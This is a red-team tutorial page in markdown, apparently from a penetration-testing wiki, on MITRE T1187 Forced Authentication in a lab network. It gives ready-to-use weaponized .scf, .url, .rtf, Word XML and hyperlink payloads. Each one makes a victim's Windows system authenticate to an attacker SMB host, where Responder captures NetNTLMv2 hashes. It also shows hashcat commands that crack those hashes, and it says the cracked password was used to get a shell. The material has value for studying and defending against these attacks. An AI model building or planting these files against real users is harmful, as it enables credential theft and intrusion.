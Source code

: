```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink

Let's create a Word document that has a hyperlink to our attacking server where  `responder` will be listening on port 445:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Let's start `Responder` on our kali box:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the link in the document is clicked, the target system sends an authentication request to the attacking host. Since responder is listening on the other end, victim's `NetNTLMv2` hash is captured:

![](../.gitbook/assets/forced-auth-hashes.png)

The retrieved hash can then be cracked offline with hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on the attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

A victim user `low` opens the share `\\10.0.0.7\tools` and the `fa.scf` gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.0.0.5 where responder is listening:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded through the browser and as soon as the user navigates to the `Downloads` folder, users's hash is stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

{% code-tabs %}
{% code-tabs-item title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Create a listener on the attacking system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the victim navigates to the C:\ where `link.url` file is placed, the OS tries to authenticate to the attacker's malicious SMB listener on `10.0.0.5` where NetNTLMv2 hash is captured:

![](../.gitbook/assets/forced-authentication-url.gif)

## Execution via .RTF

Weaponizing .rtf file, which will attempt to load an image from the attacking system:

{% code-tabs %}
{% code-tabs-item title="file.rtf" %}
```csharp
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://10.0.0.5/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Starting authentication listener on the attacking system:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing the file.rtf on the victim system gives away user's hashes:

![](../.gitbook/assets/rtf-hashes.gif)

## Execution via .XML

MS Word Documents can be saved as .xml:

![](../.gitbook/assets/screenshot-from-2018-12-09-16-23-39.png)

This can be exploited by including a tag that requests the document stylesheet \(line 3\) from an attacker controlled server. The victim system will share its NetNTLM hashes with the attacker when attempting to authenticate to the attacker's system:

```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<?mso-application progid="Word.Document"?>
<?xml-stylesheet type="text/xsl" href="\\10.0.0.5\bad.xsl" ?>
```

Below is the attack illustrated:

![](../.gitbook/assets/peek-2018-12-09-16-44.gif)

{% file src="../.gitbook/assets/test-xls-stylesheet.xml" caption="test-xls-stylesheet.xml" %}

## Execution via Field IncludePicture

Create a new Word document and insert a new field `IncludePicture`:

![](../.gitbook/assets/screenshot-from-2018-12-09-17-01-11.png)

Save the file as .xml. Note that the sneaky image url is present in the XML:

![](../.gitbook/assets/screenshot-from-2018-12-09-17-02-32.png)

Launching the document gives away victim's hashes immediately:

![](../.gitbook/assets/peek-2018-12-09-17-04.gif)

{% file src="../.gitbook/assets/smb-image.xml" caption="smb-image.xml" %}

## References

{% embed url="http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf" %}

{% embed url="https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

{% embed url="https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208" %}

{% embed url="https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/" %}

{% embed url="https://twitter.com/bohops/status/1062935197107322880?s=12" %}

